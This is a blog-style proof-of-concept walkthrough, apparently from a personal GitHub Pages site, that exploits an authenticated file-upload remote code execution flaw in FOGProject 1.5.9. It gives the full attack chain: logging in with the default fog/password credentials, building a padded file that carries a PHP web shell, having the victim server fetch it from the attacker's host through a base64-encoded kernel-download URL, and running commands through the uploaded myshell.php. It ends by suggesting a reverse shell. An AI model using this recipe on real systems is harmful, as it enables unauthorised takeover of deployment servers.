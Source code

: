 ```yaml
---
layout: default
title : muzec - FOGProject 1.5.9 - File Upload RCE (Authenticated) - (POC)
---
```


Hello Guys so i will be talking about the new FOGProject 1.5.9 - File Upload RCE (Authenticated) which was disclose not to long so i will be exploiting one for a Proof Of Concept.

![image](https://user-images.githubusercontent.com/69868171/120313464-fc1cb980-c2a7-11eb-9a12-f1c6bc2decc8.png)

ExploitDB Link:- `https://www.exploit-db.com/exploits/49811`

![image](https://user-images.githubusercontent.com/69868171/120314216-fecbde80-c2a8-11eb-8ca0-b2ec0969cdb7.png)

We are having the victim machine ready now let log in with FogProject default credentials which is `fog` and `password` and we should have access to the dashboard.

![image](https://user-images.githubusercontent.com/69868171/120314843-a6e1a780-c2a9-11eb-9b3a-05fb69a36fd2.png)

Not time for the fun part going to attacking machine let create an empty 10mb file.

`dd if=/dev/zero of=myshell bs=10485760 count=1`

![image](https://user-images.githubusercontent.com/69868171/120315442-6171aa00-c2aa-11eb-8ef4-79d667a27a8d.png)

Now let add our PHP payload to the end of the file we just created.

`echo '<?php $cmd=$_GET["cmd"]; system($cmd); ?>' >> myshell`

![image](https://user-images.githubusercontent.com/69868171/120315714-a5fd4580-c2aa-11eb-8ed8-f65603680c5e.png)

Now we need to allow our `myshell` file to be accessible through HTTP i will using SimpleHTTPServer for that or you can easily copy the `myshell` to your `/var/www/html` .

![image](https://user-images.githubusercontent.com/69868171/120316132-16a46200-c2ab-11eb-8d6d-c0a4b49961aa.png)

It on the same folder i have the `myshell` now let encode the URL to get `myshell` file to base64 (Replacing Attacker IP) that is my IP because of the `myshell` file we are hosting on my machine.

`echo "http://Attacker-IP/myshell" | base64`

![image](https://user-images.githubusercontent.com/69868171/120316815-d396be80-c2ab-11eb-9497-931a6c27e7e1.png)

Now let visit the URL.

`http://localhostfog//fog/management/index.php?node=about&sub=kernel&file=aHR0cDovLzEwLjguMC4xNTYvbXlzaGVsbAo=&arch=arm64` NOTE:- we add the `myshell` that we encoded in the base64 `aHR0cDovLzEwLjguMC4xNTYvbXlzaGVsbAo=` .

`http://VICTIM_IP/fog/management/index.php?node=about&sub=kernel&file=<MYSHELL_URL_ENCODED_IN_BASE64_HERE>=&arch=arm64` .

![image](https://user-images.githubusercontent.com/69868171/120318625-0e99f180-c2ae-11eb-884e-a7e54061e559.png)

Now change the Kernel Name (bzImage32) to myshell.php and click on Install we should get `Download Started` give it time and we should see `Transfer Succeeded` .

![image](https://user-images.githubusercontent.com/69868171/120319611-35a4f300-c2af-11eb-9669-be59f845e752.png)

Nice our file have been uploaded we can confirm it by checking the SimpleHTTPServer we started.

![image](https://user-images.githubusercontent.com/69868171/120319891-7c92e880-c2af-11eb-8016-e87df1086e23.png)

Now let access our upload file through URL to get Remote Code Execution. 

`http://localhostfog/fog/service/ipxe/myshell.php?cmd=id` 

![image](https://user-images.githubusercontent.com/69868171/120321219-0abb9e80-c2b1-11eb-8114-20e0e6737489.png)

Boom and we have remote code execution you can go ahead and get a reverse shell or do anything.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
